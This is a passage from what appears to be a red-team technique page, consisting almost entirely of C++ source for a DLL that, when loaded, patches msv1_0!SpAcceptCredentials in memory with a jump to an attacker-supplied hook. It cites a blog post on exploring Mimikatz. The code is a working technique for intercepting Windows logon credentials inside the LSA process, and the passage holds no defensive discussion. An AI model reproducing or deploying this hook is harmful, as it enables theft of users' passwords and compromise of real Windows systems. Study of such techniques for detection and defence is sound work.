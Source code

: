 ```cpp
	std::memcpy(bytesToRestoreSpAccecptedCredentials, addressOfSpAcceptCredentials, sizeof(bytesToRestoreSpAccecptedCredentials));
	
	// hook msv1_0!SpAcceptCredentials with "mov rax, hookedSpAccecptedCredentials; jmp rax";
	DWORD_PTR addressBytesOfhookedSpAccecptedCredentials = (DWORD_PTR)&hookedSpAccecptedCredentials;
	std::memcpy(bytesToPatchSpAccecptedCredentials + 2, &addressBytesOfhookedSpAccecptedCredentials, sizeof(&addressBytesOfhookedSpAccecptedCredentials));
	std::memcpy(bytesToPatchSpAccecptedCredentials + 2 + sizeof(&addressBytesOfhookedSpAccecptedCredentials), (PVOID)&"\xff\xe0", 2);
	WriteProcessMemory(GetCurrentProcess(), addressOfSpAcceptCredentials, bytesToPatchSpAccecptedCredentials, sizeof(bytesToPatchSpAccecptedCredentials), (SIZE_T*)&bytesWritten);
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
	switch (ul_reason_for_call)
	{
		case DLL_PROCESS_ATTACH:
		{
			installSpAccecptedCredentialsHook();
		}
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
	}
	return TRUE;
}
```
{% endcode %}

## References

{% embed url="https://blog.xpnsec.com/exploring-mimikatz-part-2/" %}
